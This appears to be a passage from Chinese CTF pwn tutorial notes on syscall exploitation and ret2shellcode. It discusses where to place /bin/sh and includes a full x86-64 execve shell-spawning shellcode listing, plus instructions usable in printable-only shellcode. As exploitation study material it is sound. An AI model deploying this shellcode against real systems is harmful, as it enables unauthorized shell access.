 而在syscall中，最为重要也是最麻烦的一步，就是在哪个地址写入/bin/sh（如果本地文件没有/bin/sh的话），一般而言，有三个选择，.data, .bss， 栈上。

在没开PIE的程序中，可以考虑通过write写入.data段或者买.bss段。

或者考虑通过rsp获取栈上地址，或者partial overwrite带出栈上地址。

总的而言，就是选择能够获取到地址的地方写入/bin/sh。



**例题:**

ciscn_s_3



### ret2shellcode

#### shellcode的书写

一般而言，可以直接通过pwntools 相应模块直接生成shellcode，然而现在以shellcode为考点的题目，一般都会对shellcode做出限制，诸如不能包含可打印字符等等。所以尽可能自己熟悉shellcode的书写。

一个简单的shellcode例子:

```c
// execve(path = '/bin///sh', argv = ['sh'], envp = 0)
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
// push argument array ['sh\x00']
// push b'sh\x00' 
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
// call execve()
push SYS_execve /* 0x3b */
pop rax
syscall
```

这里获取`/bin/sh`地址的方式，是将其压入栈中，再通过rsp偏移获取相应地址。

不过一般而言，pwn题目运行shellcode，一般是采用寄存器跳转，即`jmp  rax`此类，那么其实可以通过跳转寄存器获取shellcode存放地址，并且将/bin/sh直接镶入shellcode后面，简化shellcode书写。

同时，有些题目会对shellcode有所限制，限制只能包含可打印字符或者纯粹字母数字。这就限制了shellcode的书写，`mov`和`syscall`都会遭到限制， 可用指令如下:

```c
1.数据传送:
push/pop eax…
pusha/popa

2.算术运算:
inc/dec eax…
sub al, 立即数
sub byte ptr [eax… + 立即数], al dl…
sub byte ptr [eax… + 立即数], ah dh…
sub dword ptr [eax… + 立即数], esi edi
sub word ptr [eax… + 立即数], si di
sub al dl…, byte ptr [eax… + 立即数]
sub ah dh…, byte ptr [eax… + 立即数]
sub esi edi, dword ptr [eax… + 立即数]
```
